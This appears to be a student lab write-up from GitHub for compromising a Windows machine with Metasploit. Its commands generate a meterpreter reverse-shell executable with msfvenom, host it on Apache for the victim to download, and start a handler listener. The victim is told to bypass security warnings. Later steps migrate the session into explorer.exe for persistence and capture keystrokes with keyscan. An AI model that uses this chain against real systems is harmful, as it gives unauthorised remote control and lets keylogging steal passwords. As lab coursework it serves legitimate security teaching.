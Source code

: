 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-07 111203](https://github.com/user-attachments/assets/f502fbad-fa63-43b0-a764-bd5d668829f0)






Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-07 111219](https://github.com/user-attachments/assets/e0bb5eb9-e3ee-44da-9b23-6b8f35ef0d1a)







copy the fun.exe into the apache /var/www/html folder
![Screenshot 2025-04-07 111421](https://github.com/user-attachments/assets/4ddc6822-5ea4-474d-9585-8a06ac09cfa0)



Start apache server
sudo systemctl apache2 start
![Screenshot 2025-04-07 111543](https://github.com/user-attachments/assets/8ce9e844-c444-426e-ae16-034af3cd6e5b)






Check the status of apache2
![Screenshot 2025-04-07 112128](https://github.com/user-attachments/assets/e3317be1-ef42-4cd9-90e0-8c04e27e7318)





Invoke msfconsole:
## OUTPUT:






Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-07 114636](https://github.com/user-attachments/assets/b03d96a2-1d8d-4dec-8a0f-22c7cec2b903)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2025-04-11 141549](https://github.com/user-attachments/assets/1280db57-07f0-4f80-8c79-d2915f41f8f3)




Bypass any warning boxes, double-click the file, and allow it to run.


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 






Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Screenshot 2025-04-11 141747](https://github.com/user-attachments/assets/0fe234e9-00ba-4e13-a399-c178ccb54fd9)




keyscan_dump	Shows the keystrokes captured so far
![Screenshot 2025-04-07 115015](https://github.com/user-attachments/assets/2cd42810-8016-4632-97ca-6ab56f11c012)





## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
